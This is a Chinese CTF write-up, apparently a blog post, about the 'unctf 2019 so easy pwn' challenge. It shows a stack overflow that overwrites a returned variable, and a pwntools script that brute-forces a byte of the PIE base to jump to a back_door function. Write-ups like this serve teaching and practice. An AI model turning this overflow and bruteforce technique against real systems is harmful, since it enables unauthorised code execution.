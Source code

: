 ```yaml
---
layout:     post
title:      "unctf 2019 so easy pwn"
#subtitle:   " \"Hello World, Hello my first Blog\""
date:       2019-11-26 21:00:00
author:     "Red"
#header-img: "img/post-bg-2015.jpg"
catalog: true
tags:
    - pwn
    - ctf
---
```


这个题经过 [@x](https://ma2in9.top) 的注释之后是这样的：
![](https://github.com/zhe6652/zhe6652.github.io/raw/master/_posts/unctf-2019-so-easy-pwn/main.png)

### 寻找漏洞点
思路是在两个read函数处下断点，这种写的操作最容易有漏洞，看到read了16个字节，所以拿16个A测试，关闭地址随机化之后，调试，用vmmap看加载的基地址，得到read的真实地址，初步代码如下：
```python
from pwn import *

context.log_level='DEBUG'
context.terminal=['tmux','split','-h']
sh = process('./pwn')

gdb.attach(sh,'''
	b* 0x5655595a #read1
	b* 0x56555a06 #read2
''')

sh.send("A" * 16)
sh.interactive()
```
调试之后发现welcome中的s地址为``0xffffd16c``, call函数中的v1的地址为``0xffffd178``,buf地址为``0xffffd17c``,也就是说s和v1地址只差了12，我们输入16个字节后刚好可以覆盖v1的地址，这就是漏洞所在：
![](https://github.com/zhe6652/zhe6652.github.io/raw/master/_posts/unctf-2019-so-easy-pwn/vul.png)

### 利用
查看call函数中函数恰巧return了v1，而v1又能被我们覆盖，所以利用方法不言而喻，用12个padding加上一个返回地址即可，查看程序中有back_door可以利用，但是程序开启了PIE。再看welcome函数中泄露了基地址的前16位，也就是前4个字节，back_door中
泄露了后三字节，也就是说需要我们爆破中间的一个字节：
```python
from pwn import *
context.log_level='DEBUG'	
context.terminal=['tmux','split','-h']
try:
	for i in range(0x1000, 0x10000, 0x1000):
		print hex(i)
		sh = process('./pwn')
		  
		back_door = 0x000009cd
		offset = 12 

		#gdb.attach(sh,'''
		#	b* 0x5655595a
		#	b* 0x56555a06
		#''')
		sh.recvuntil("the ")
		ads = (int(sh.recvuntil(" ", drop = True)[-6:]) << 16) +i
		print ads
		sh.recvuntil("name?")
		payload = "a"*offset +p32(back_door +ads)
		sh.send(payload)
		sh.recvuntil(":")
		sh.send("anything")
		sh.interactive()
except Exception as e:
	pass
```

这个题中有个好玩的地方就是第二次read，不管输入什么都会报错，调试得知原来read函数根本没read成功,read返回值(rax)为-1:
![](https://github.com/zhe6652/zhe6652.github.io/raw/master/_posts/unctf-2019-so-easy-pwn/read.png)
